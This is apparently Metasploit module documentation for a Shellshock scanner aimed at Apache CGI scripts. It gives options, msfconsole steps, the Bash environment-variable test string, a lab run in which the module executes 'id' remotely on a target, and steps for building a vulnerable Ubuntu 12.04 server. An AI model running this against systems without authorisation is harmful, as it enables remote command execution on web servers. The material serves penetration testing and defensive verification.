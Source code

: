 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. This module targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition.

## Verification Steps
1. Do: run `msfconsole`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
``` 

## Options
1. `CMD`. The default setting is /usr/bin/id
2. `CVE`. The default setting is CVE-2014-6271 but valid options are CVE-2014-6271 or CVE-2014-6278
3. `HEADER`. The default setting is User-Agent
4. `METHOD`. The default setting is GET
5. `Proxies`. This option is not set by default
6. `RHOSTS`. This option is not set by default but must bet set to run the scanner. It will most likely be set to the IP address of the remote server that the module is run against.
7. `RPORT`. This option is set to 80 by default 
8. `SSL`. This option is not set by default
9. `TARGETURI`. This option  is not set by default but must be set to run the scanner. This option will be set to a cgi script on the target server.
10. `THREADS`. This option is set to 1 by default
11. `VHOST`. This option is not set by default

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/hw.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a vulnerable OS and Apache version

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console 
  3. run 
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo)
  5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
sudo chmod +x /usr/lib/cgi-bin/test.sh
```
